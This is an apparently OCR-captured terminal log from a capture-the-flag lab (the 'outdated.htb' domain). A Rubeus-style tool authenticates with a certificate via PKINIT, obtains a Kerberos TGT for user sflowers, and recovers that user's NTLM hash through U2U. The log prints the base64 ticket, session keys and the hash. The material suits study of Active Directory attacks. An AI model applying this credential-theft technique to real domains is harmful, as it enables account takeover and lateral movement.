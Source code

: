         [*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
        [*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
        [*] Using domain controller: 172.16.20.1:88
        [+] TGT request successful!
        [*] base64(ticket.kirbi):
        
              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
        
          ServiceName              :  krbtgt/outdated.htb
          ServiceRealm             :  OUTDATED.HTB
          UserName                 :  sflowers
          UserRealm                :  OUTDATED.HTB
          StartTime                :  12/20/2022 11:05:44 PM
          EndTime                  :  12/21/2022 9:05:44 AM
          RenewTill                :  12/27/2022 11:05:44 PM
          Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
          KeyType                  :  rc4_hmac
          Base64(key)              :  rLrBAoPcu4HNDEhx9kLHlQ==
          ASREP (key)              :  2E6385ECFA5C3F9D58D7A4EE9B9C29EA
        
        [*] Getting credentials using U2U
        
          CredentialInfo         :
            Version              : 0
            EncryptionType       : rc4_hmac
            CredentialData       :
              CredentialCount    : 1
               NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5     
               
